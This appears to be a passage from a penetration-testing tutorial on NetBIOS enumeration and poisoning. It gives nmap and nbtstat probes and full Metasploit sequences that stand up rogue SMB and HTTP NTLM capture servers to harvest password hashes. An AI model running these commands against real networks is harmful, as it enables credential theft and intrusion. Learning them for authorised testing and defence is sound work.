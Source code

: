 ### Other Information Gathering Methods for Different Platforms

```bash
nmap --script=broadcast-netbios-master-browser 10.10.x.x
msf> use auxiliary/scanner/netbios/nbname_probe (deprecated)
# on Windows
nbtstat -A 10.10.x.x
nbtstat -c
```

## NetBIOS Poisoning

### NetBIOS Poisoning with Metasploit

For protocols such as SMB and HTTP, various modules are available on the Metasploit Framework that can capture the handshake authentication issue. Capturing the password hash over SMB requires using the `auxiliary/server/capture/smb` module

```bash
msf6> use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > set SRVHOST 192.168.56.104 # Attacker IP
msf6 auxiliary(server/capture/smb) > set logfile /tmp/logfile
msf6 auxiliary(server/capture/smb) > set johnpwfile /tmp/john-smb
msf6 auxiliary(server/capture/smb) > set cainwpfile /tmp/cain-smb
msf6 auxiliary(server/capture/smb) > run
```

![SMB Server listener](/assets/img/pitcures/netbios/netbios12.png)
_SMB Server listener_

The Metasploit framework's capture module for NTLM authentication query over HTTP can be configured as follows:

```bash
msf6 auxiliary(server/capture/smb) > use auxiliary/server/capture/http_ntlm
msf6 auxiliary(server/capture/http_ntlm) > set SRVHOST 192.168.56.104
msf6 auxiliary(server/capture/http_ntlm) > set SRVPORT 80
msf6 auxiliary(server/capture/http_ntlm) > set URIPATH /
msf6 auxiliary(server/capture/http_ntlm) > set cainwpfile /tmp/cain-smb
msf6 auxiliary(server/capture/http_ntlm) > set johnpwfile /tmp/john-smb
msf6 auxiliary(server/capture/http_ntlm) > set logfile /tmp/logfile
msf6 auxiliary(server/capture/http_ntlm) > run
```
